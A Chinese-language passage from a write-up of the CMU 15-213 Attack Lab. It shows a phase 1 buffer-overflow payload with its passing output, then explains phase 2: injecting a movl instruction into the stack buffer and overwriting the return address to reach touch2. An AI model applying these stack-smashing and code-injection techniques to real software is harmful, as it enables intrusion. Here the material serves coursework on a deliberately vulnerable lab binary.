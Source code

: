 作为参数运行`rtarget`:

```bash
cat phase1.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00 

```

## Phase 2

第二个阶段要求带参数进入`touch2`函数，`%rdi`作为第一个参数传递。

问题在于，现在我们可以利用缓冲区溢出，修改上一个栈帧的栈顶，也就是ret指令的返回值。

但是如何执行参数赋值呢？

正常来说带参数调用函数，应该是先对参数赋值，然后进入函数。

```nasm
movl $cookie, %edi
call <touch2>
```

问题就在于如何插入这个movl的攻击代码。

我们唯一能输入的内容只有缓冲区，所以一定在缓冲区内插入我们的代码（而且writeup的提示很明显，让我们使用gcc -c选项和objdump -d来手动获取一个汇编指令的字节码）

根据第一个阶段的注入，我们可以让ret的地址，绕回这个缓冲区，也就是让`%rip`（又名程序计数器PC）来指向这个区域，然后逐条执行攻击代码。

例如下面的输入。假设%rsp在getbuf函数中，值为0xabcde0

那么可以让前一个栈帧（test函数）的栈顶改成0xabcde0

从而`getbuf`内部的ret指令执行时，PC指向0xabcde0，那么这里开始只要注入代码，就可以照常执行攻击代码，从而对`%rdi`赋值cookie

```text
00 00 00 00 00 00 00 00     # 假设这里的地址是0xabcde0  <- %rsp
00 00 00 00 00 00 00 00     # 那么这里的地址是0xabcde8
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00     # 到这里填充完getbuf的栈帧  
e0 cd ab 00 00 00 00 00     # 这里篡改了ret的返回函数地址 <- %rsp + 0x28
```

需要注意的是，执行完了movl给第一个参数赋值cookie，我们要跳转到`touch2`: 0x4017ec的位置

writeup中说明了，最好不要使用call或者jmp指令，所以我们仍然使用ret指令。

当`getbuf`内部的ret指令执行完毕后，PC指向攻击代码的部分，同时，%rsp指向原本栈帧`test`函数的部分

为了跳转`touch2`，我们要push一次`touch2`的地址。
